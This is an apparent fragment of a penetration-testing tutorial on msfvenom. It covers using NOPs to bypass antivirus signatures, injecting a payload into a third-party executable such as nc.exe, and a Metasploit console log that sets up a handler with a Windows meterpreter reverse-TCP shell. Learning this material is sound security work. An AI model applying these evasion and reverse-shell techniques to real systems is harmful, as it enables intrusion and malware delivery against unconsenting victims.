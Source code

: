 > It add some additional character which has no meaning , it can be use to increase the size also.
>
> Using nops can increase the chances of signature bypass.

```
msfvenom -l nops
```

<figure><img src="../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

### Platfrom

> Where the payload is executed.

### Architecture

> The architecture like x32,x64,x84 etc

```
--template it will inject the malicious piece  of code into the executable  third party program
-f exe -x nc.exe
msf6 > 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show option
[-] Invalid parameter "option", use "show -h" for more information
msf6 exploit(multi/handler) > options
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (generic/shell_reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
View the full module info with the info, or info -d command.
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```